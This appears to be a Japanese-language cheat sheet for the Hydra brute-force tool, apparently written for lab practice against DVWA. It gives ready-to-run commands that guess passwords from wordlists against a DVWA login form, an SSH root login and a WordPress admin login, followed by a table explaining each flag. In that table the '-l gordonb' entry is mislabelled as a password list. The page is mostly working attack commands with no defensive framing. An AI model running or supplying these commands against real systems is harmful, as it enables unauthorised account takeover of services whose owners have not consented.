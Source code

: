 # Hydra

様々なプロトコルに対応したBruteForce Attackツール

* ワードリスト　`/usr/share/wordlists/metasploit`

## コマンド例

``` shell
    hydra 192.168.XXX.XXX -s 80 -l gordonb -P /usr/share/wordlists/metasploit/burnett_top1024.txt http-get-form "/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie: PHPSESSID=セッションID;security=low:F=Username and/or password incorrect."
```

``` shell
    # sshでrockyou.txtを使ったパスワード総当たり
    hydra -l root -P rockyou.txt XXX.YYY.ZZZ.III ssh
```

| command                                                  | summary                                     |
| -------------------------------------------------------- | ------------------------------------------- |
| Hydra                                                    | hydraコマンド                               |
| `192.168.XXX.XXX -s 80`                                   | webアプリのアドレスとポート                 |
| `-l gordonb`                                             | パスワードリスト                            |
| `-P /usr/share/wordlists/metasploit/burnett_top1024.txt` | パスワードリスト                            |
| `/vulnerabilities/brute/`                                | リクエスト先のリソース                      |
| `:username=^USER^&password=^PASS^&Login=Login`           | クエリストリングの^USER^,^PASS^が変数に相当 |
| `:H=Cookie: PHPSESSID=セッションID;security=low`         | リクエストのヘッダ(Cookie)                  |
| `:F=Username and/or password incorrect."`                | ログイン失敗時のメッセージ |

## wordpressへのブルートフォースサンプル

``` shell
    sudo hydra XXXXXX -s 80 -l admin -P /home/student/rockyou_mini.txt http-form-post "/wordpress/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:incorrect"
```
